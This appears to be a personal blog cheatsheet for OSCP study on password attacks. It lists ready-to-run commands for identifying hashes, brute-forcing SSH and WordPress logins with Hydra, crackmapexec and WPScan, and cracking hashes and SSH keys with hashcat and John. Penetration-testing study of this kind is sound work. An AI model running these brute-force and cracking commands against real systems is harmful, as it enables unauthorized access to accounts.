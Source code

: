 ```yaml
---
title: Password Attacks
author: linatl
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
$ hashid -e hash.txt
$ hash-identifier
```

###### Bruteforcing with Hydra
```
$ hydra -e nsr -l username -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
"-e nsr" = try "n" null password, "s" login as pass and/or "r" reversed login
```

###### Bruteforcing with Crackmapexec
```
$ crackmapexec ssh 10.10.10.10 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Password policy
```
$ net accounts

For Active Directory from powershell:
$ Get-ADDefaultDomainPasswordPolicy
```

###### Hashcat
```
$ echo "$1$hash" > hash.txt
$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
$ echo "$1$hash" > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://10.10.10.10/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
